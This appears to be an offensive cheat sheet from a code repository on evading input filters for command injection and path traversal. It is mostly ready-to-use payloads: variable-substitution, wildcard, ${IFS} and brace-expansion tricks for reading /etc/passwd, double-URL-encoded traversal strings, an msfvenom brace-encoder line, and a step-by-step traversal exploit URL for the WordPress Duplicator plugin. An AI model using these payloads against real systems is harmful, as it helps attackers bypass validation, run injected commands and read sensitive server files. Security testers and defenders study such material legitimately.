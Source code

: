 

### uninitialized bash variable 
in order to elude regular expression based filters and pattern match.
```
echo "uninitialized_variable=$uninitialized_variable"
```
Uninitialized variable has null value (no value at all).
```
uninitialized_variable=
```
Declaring, but not initializing it, it's the same as setting it to a null value, as above
```
cat$u /etc$u/passwd$u
```
Bash Variable Substitution ($u equal to "")
```
cat /etc/passwd
```


### directory traversal bypass
```
/e?c/pa??wd
/../../etc/passwd 
%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
cat$u+/etc$u/passwd$u
cat$qwerty /etc$lolololol/passwd$aaaaaaaaaa
```

https://twitter.com/faizalabroni/status/1361246813211172865
1. Found Wordpress target
2. try to find plugin and got WordPress Duplicator plugin
3. input /wp-admin/admin-ajax.php?action=duplicator_download&file=..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd 
4. You can also use nuclei for scanning this issue


### shell brace expansion filter bypass
```
echo "which -a curl" | echo "{$(tr -s " " ,)}"
echo "which -a curl" | ./msfvenom -p - -a cmd --platform unix -b " " -e cmd/brace
```
the response will be: {which,-a,curl}

this should bypass some restrictions

### alternate examples space filter evasion/bypass:
```
echo a.|{which,-a,curl}
echo |{which,-a,curl};#.a
cat${IFS}/etc/passwd
```

## Filter Evasion
The first step is to determine what the filters are allowing or blocking, and where they are implemented. If the restrictions are performed on the client-side using JavaScript, then they can be trivially bypassed with an intercepting proxy.
